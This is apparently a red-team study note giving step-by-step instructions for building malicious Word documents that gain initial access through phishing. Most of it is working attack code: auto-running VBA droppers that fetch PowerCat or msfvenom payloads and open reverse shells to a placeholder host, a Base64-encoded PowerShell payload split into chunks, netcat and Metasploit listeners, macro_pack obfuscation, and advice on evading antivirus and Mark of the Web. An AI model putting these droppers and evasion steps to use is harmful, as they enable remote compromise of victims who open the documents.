

> [!abstract] Malicious Office Macros & VBA Execution
> A comprehensive guide for crafting malicious Microsoft Word documents to gain Initial Access. This note covers document setup, VBA fundamentals, payload generation (PowerCat, MSFvenom), obfuscation (Base64 chunking, macro_pack), stealth execution via ActiveX, and OPSEC considerations.
> **MITRE ATT&CK Mapping:** [T1566.001 - Phishing: Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/) | [T1204.002 - User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002/)

## Attack Flow Diagram



## Step 1: Initial Document Setup

> [!info]+ Preparing the Malicious Document
> 1. Open Microsoft Word and create a new blank document.
> 2. **Save As** `Word 97-2003 Document (*.doc)` or enable Macros for the document. Older formats handle macros more seamlessly.
> 3. Go to **File > Options > Customize Ribbon** and enable the **Developer** tab.
> 4. Go to the **View** tab > **Macros** > **View Macros**.
> 5. Set Macro name: `MyMacro`
> 6. Set "Macros in": your document name (e.g., `payload.doc`).
> 7. Click **Create** to open the VBA Editor.

![[Macro format.png]]

---

## VBA Fundamentals

> [!example]+ Basic VBA Execution
> Simple examples to understand VBA syntax, message boxes, and executing external executables.
> 
> **Message Boxes:**
> ```vba
> Sub macroname()
>     MsgBox "hello word", vbInformation, "title of message"
> End Sub
> 
> Sub mydoc()
>     MsgBox ("hello world")
> End Sub
> ```
> 
> **Run Executable (Method 1):**
> ```vba
> Sub Poc()
>     Dim var As String
>     var = "calc.exe"
>     ' 0 = Hidden Window, 1 = Normal Window
>     CreateObject("Wscript.Shell").Run var, 0
> End Sub
> ```
> 
> **Run Executable (Method 2):**
> ```vba
> Sub Poc()
>     Dim var As Object
>     Set var = CreateObject("Wscript.Shell")
>     var.Run "notepad.exe", 1, False
> End Sub
> ```
> 
> **Read Registry:**
> ```vba
> Sub AutoOpen()
>     reg
> End Sub
> 
> Sub Document_Open()
>     reg
> End Sub
> 
> Sub reg()
>     Dim wsh As Object
>     Set wsh = CreateObject("Wscript.Shell")
>     Dim regKey As String
>     regKey = "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion"
>     MsgBox "Product Name: " & wsh.RegRead(regKey & "\ProductName")
> End Sub
> ```

---

## Payload Delivery: PowerCat & Obfuscation

> [!danger]+ Method 1: In-Memory PowerCat Dropper
> Downloads and executes PowerCat directly in memory using PowerShell `IEX`.
> **Resource:** [besimorhino/powercat](https://github.com/besimorhino/powercat)
> 
> **VBA Code:**
> ```vba
> Sub AutoOpen()
>     dropper
> End Sub
> 
> Sub Document_Open()
>     dropper
> End Sub
> 
> Sub dropper()
>     Dim url As String
>     Dim ps As String
>     url = "http://x.x.x.x:4444/powercat.ps1"
>     ps = "IEX(New-Object System.Net.WebClient).DownloadString('" & url & "'); powercat -c x.x.x.x -p 4444 -e cmd"
>     Shell "Powershell.exe -ep bypass -WindowStyle Hidden -Command """ & ps & """", vbHide
> End Sub
> ```
> *Listener:* `nc -vnlp 4444`

> [!warning]+ Method 2: Obfuscated PowerCat (Base64 Chunking)
> Because VBA has line length limits, long Base64 payloads must be split into 50-character chunks.
> 
> **Step 1: Generate Base64 Payload (On Linux)**
> Wrap the PowerCat one-liner in a hidden window and encode it to Base64 (UTF-16LE format, which PowerShell expects).
> ```bash
> LHOST=x.x.x.x
> LPORT=4444
> # Using iconv to ensure UTF-16LE encoding
> echo -n "IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e powershell.exe" | iconv -t UTF-16LE | base64 -w 0 > /tmp/reverse-shell.txt
> 
> # Alternative using native PowerShell to generate the Base64 file:
> powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/reverse-shell.txt
> ```
> 
> **Step 2: Python Chunking Script**
> Put your final command (`powershell.exe -nop -w hidden -e <BASE64>`) in a variable and run this script to generate VBA string chunks.
> ```python
> str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKABoAHQAdABwAHMAOgAvAC8AcgBhAHcALgBnAGkAdABoAHUAYgB1AHMAZQByAGMAbwBuAHQAZQBuAHQALgBjAG8AbQAvAGIAZQBzAGkAbQBvAHIAaABpAG4AbwAvAHAAbwB3AGUAcgBjAGEAdAAvAG0AYQBzAHQAZQByAC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAXAApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQAwAC4AMQAwAC4AMQAwAC4AMQAwACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQA="
> n = 50
> for i in range(0, len(str), n):
>     print("Str = Str + " + '"' + str[i:i+n] + '"')
> ```
> Run `python pythonscript.py` and copy the output.
> 
> **Step 3: VBA Macro**
> Paste the Python output inside `MyMacro`.
> ```vba
> Sub AutoOpen()
>     MyMacro
> End Sub
> 
> Sub Document_Open()
>     MyMacro
> End Sub
> 
> Sub MyMacro()
>     Dim Str as String
>     ' --- PASTE PYTHON OUTPUT HERE ---
>     ' Example: Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGU"
>     ' Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAG"
>     CreateObject("Wscript.shell").Run Str
> End Sub
> ```

---

## Integration with Metasploit Framework

> [!bug]+ Generating Payloads with MSFvenom
> 
> **Method 1: `vba_exe`**
> ```bash
> msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=x.x.x.x lport=4444 -f vba_exe
> ```
> *Copy the VBA code & paste into the macro document. Rename the output sub from `WorkBook_Open` to `Document_Open`. Paste the payload body into a blank document page.*
> 
> **Method 2: `vba-psh`**
> ```bash
> msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=x.x.x.x lport=4444 -f vba-psh
> # Or with x64 and encoding:
> msfvenom -a x64 --platform windows -p windows/meterpreter/reverse_tcp lhost=x.x.x.x lport=4444 -e x86/shikata_ga_nai -f vba-psh
> ```
> *Copy to macro doc, rename `WorkBook_Open` to `Document_Open`.*
> 
> **Method 3: Custom EXE Dropper**
> ```bash
> msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=x.x.x.x lport=4444 -f exe -o msfvenomPayload.exe
> python3 -m http.server 4444
> ```
> **VBA Code:**
> ```vba
> Sub AutoOpen()
>     dropper
> End Sub
> 
> Sub Document_Open()
>     dropper
> End Sub
> 
> Sub dropper()
>     Dim url As String
>     Dim ps As String
>     url = "http://x.x.x.x:4444/msfvenomPayload.exe"
>     ps = "Invoke-WebRequest -Uri """ & url & """ -OutFile ""C:\file.exe"";" & vbCrLf & "Start-Process -FilePath ""C:\file.exe"" "
>     Shell "Powershell.exe -ep bypass -WindowStyle Hidden -Command """ & ps & """ ", vbHide
> End Sub
> ```

---

## Step 4: Execution & Listener

> [!success]+ Catching the Shell
> Before sending the macro to the victim, ensure your listener is running.
> 
> **Netcat Listener:**
> ```bash
> nc -vnlp 4444
> ```
> 
> **Alternative: Metasploit Handler (if using msfvenom payloads):**
> ```ruby
> msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST x.x.x.x; set LPORT 4444; run"
> ```

---

## Stealth Execution: ActiveX Controls

> [!info] Why use ActiveX?
> Antivirus solutions heavily monitor and flag `Sub Document_Open()` and `Sub AutoOpen()`. By using ActiveX controls, you force the user to click "Enable Content" to activate the object, bypassing static AV rules.

![[Pasted image 20241112233032.png]]

> [!tip] ActiveX Auto-Execution Functions
> This table shows which ActiveX Control functions can be used to auto-run payloads when the object is interacted with.
> ![[Function ActiveX.png]]
> ![[example of activex.png]]

> [!example]+ Implementing ActiveX Execution
> 1. Ensure **Developer** mode is on.
> 2. Go to Developer panel > **Legacy Forms** > **More Controls**.
> 3. Insert a **Microsoft InKEdit Control**.
> 4. Right-click the control > **View Code**.
> 5. Change the subroutine from `InkEdit1_Change()` to `InkEdit1_GotFocus()`.
> 
> **VBA Code:**
> ```vba
> Sub InkEdit1_GotFocus()
>     calc
> End Sub
> 
> Sub calc()
>     Dim payload as String
>     payload = "calc.exe"
>     ' 0 = Hidden Window
>     CreateObject("Wscript.shell").Run payload, 0
> End Sub
> ```
> *Save the document as `Word 97-2003 Document (*.doc)`.*

---

## Automated Generation: macro_pack

> [!success]+ macro_pack Tool
> Automates the generation and obfuscation of malicious Office documents.
> **Resource:** [sevagas/macro_pack](https://github.com/sevagas/macro_pack)
> 
> **Basic Usage:**
> *`-o` is Obfuscation, `-G` is Generate*
> ```cmd
> .\macro_pack.exe --help
> .\macro_pack.exe --list
> .\macro_pack.exe --listtemplates
> echo "calc.exe" | .\macro_pack.exe -t CMD -o -G "word.doc"
> ```
> 
> **Integration with Metasploit (VBA):**
> ```cmd
> msfvenom.bat -p windows/meterpreter/reverse_tcp lhost=x.x.x.x lport=4444 -f vba | .\macro_pack.exe -o -G "word.doc"
> ```
> 
> **Integration with Metasploit (EXE Dropper):**
> ```cmd
> msfvenom.bat -p windows/meterpreter/reverse_tcp lhost=x.x.x.x lport=4444 -f exe -o file.exe
> echo "http://websrv:1115/file.exe" "file.exe" | .\macro_pack.exe -t DROPPER -o -G "excel.xls"
> ```

---

> [!warning] Operational Security (OPSEC) & Evasion Notes
> - **Mark of the Web (MotW):** If the document is downloaded from the internet, Windows will block macros by default. You may need to pack it in a ZIP, use an ISO, or use a payload delivery method that strips the MotW.
> - **AV Evasion:** Simple Base64 payloads are easily caught by Windows Defender. Consider encoding the payload with `msfvenom` using `shikata_ga_nai` or using tools like `SharpShooter` / `MacroPack`.
> - **Social Engineering:** The victim still needs to click "Enable Content" (Enable Editing/Enable Macros) for the VBA to execute.

---

> [!quote] Resources & Templates
> - **macro_pack:** [sevagas/macro_pack](https://github.com/sevagas/macro_pack)
> - **PowerCat:** [besimorhino/powercat](https://github.com/besimorhino/powercat)
> - **Phishing Templates:** [martinsohn/Office-phish-templates](https://github.com/martinsohn/Office-phish-templates)
> 
> ![[word-demo.gif]]
> *Note: After downloading templates, always Save As `Word 97-2003 Document (*.doc)`.*

